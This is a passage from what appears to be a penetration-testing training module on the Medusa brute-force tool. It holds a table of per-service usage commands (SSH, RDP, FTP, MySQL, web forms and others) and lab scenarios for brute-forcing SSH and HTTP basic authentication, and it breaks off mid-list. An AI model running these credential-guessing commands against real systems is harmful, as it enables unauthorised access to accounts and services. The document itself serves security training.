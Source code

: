 |Medusa Module|Service/Protocol|Description|Usage Example|
|---|---|---|---|
|FTP|File Transfer Protocol|Brute-forcing FTP login credentials, used for file transfers over a network.|`medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`|
|HTTP|Hypertext Transfer Protocol|Brute-forcing login forms on web applications over HTTP (GET/POST).|`medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^`|
|IMAP|Internet Message Access Protocol|Brute-forcing IMAP logins, often used to access email servers.|`medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`|
|MySQL|MySQL Database|Brute-forcing MySQL database credentials, commonly used for web applications and databases.|`medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`|
|POP3|Post Office Protocol 3|Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.|`medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`|
|RDP|Remote Desktop Protocol|Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.|`medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`|
|SSHv2|Secure Shell (SSH)|Brute-forcing SSH logins, commonly used for secure remote access.|`medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`|
|Subversion (SVN)|Version Control System|Brute-forcing Subversion (SVN) repositories for version control.|`medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`|
|Telnet|Telnet Protocol|Brute-forcing Telnet services for remote command execution on older systems.|`medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`|
|VNC|Virtual Network Computing|Brute-forcing VNC login credentials for remote desktop access.|`medusa -M vnc -h 192.168.1.100 -P passwords.txt`|
|Web Form|Brute-forcing Web Login Forms|Brute-forcing login forms on websites using HTTP POST requests.|`medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`|

### Targeting an SSH Server

Imagine a scenario where you need to test the security of an SSH server atÂ `192.168.0.100`. You have a list of potential usernames inÂ `usernames.txt`Â and common passwords inÂ `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:


```shell-session
smoothment@htb[/htb]$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

This command instructs Medusa to:

- Target the host atÂ `192.168.0.100`.
- Use the usernames from theÂ `usernames.txt`Â file.
- Test the passwords listed in theÂ `passwords.txt`Â file.
- Employ theÂ `ssh`Â module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.

### Targeting Multiple Web Servers with Basic HTTP Authentication

Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored inÂ `web_servers.txt`, and you also have lists of common usernames and passwords inÂ `usernames.txt`Â andÂ `passwords.txt`, respectively. To test these servers concurrently, execute:


```shell-session
smoothment@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

In this case, Medusa will:
